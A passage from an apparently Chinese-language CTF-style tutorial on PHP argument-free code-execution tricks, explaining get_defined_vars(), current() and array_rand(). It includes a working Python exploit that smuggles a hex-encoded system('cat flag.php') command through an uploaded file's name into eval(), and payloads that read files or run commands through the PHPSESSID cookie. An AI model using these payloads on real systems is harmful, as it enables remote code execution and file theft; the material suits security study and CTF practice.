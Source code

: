 **`get_defined_vars()`**返回由所有已定义变量所组成的数组，会返回**`$_GET,$_POST,$_COOKIE,$_FILES`**全局变量的值,返回数组顺序为**`get->post->cookie->files`**

**`current()`** 返回数组中的当前单元，初始指向插入到数组中的第一个单元，也就是会返回**`$_GET`**变量的数组值。

如果需要`$post`就把`current` 改成`next` 就好。

而如果网站对`$_GET,$_POST,$_COOKIE`都做的过滤， 那我们只能从`$_FILES`入手了，exp如下：

```plain
import requests
def str2hex(payload):
  txt = ''
  for i in payload:
      txt += hex(ord(i))[-2:]
  return txt
payload = str2hex("system('cat flag.php');")
files = {
    payload: b'extrader'
}
r = requests.post("http://192.168.0.107/index.php?exp=eval(hex2bin(array_rand(end(get_defined_vars()))));", files=files, allow_redirects=False)  # allow_redirects=False 禁用重定向处理
print(r.content.decode())
```

**array\_rand()：**从数组中随机取出一个或多个单元，如果只取出一个，**`array_rand()`**返回随机单元的键名。 否则就返回包含随机键名的数组。

### payload\_4 session\_start()

```plain
show_source(session_id(session_start()));
var_dump(file_get_contents(session_id(session_start())))
highlight_file(session_id(session_start()));
readfile(session_id(session_start())); 或者readgzfile();
修改cookie : PHPSESSID= filename

eval(hex2bin(session_id(session_start())));
抓包传入Cookie: PHPSESSID=("system('命令')"的十六进制)
```

[![](assets/1698897208-4bc2a01f4c4ee24a6ba127e4ca625a98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-478af10e-8d68-1.png)
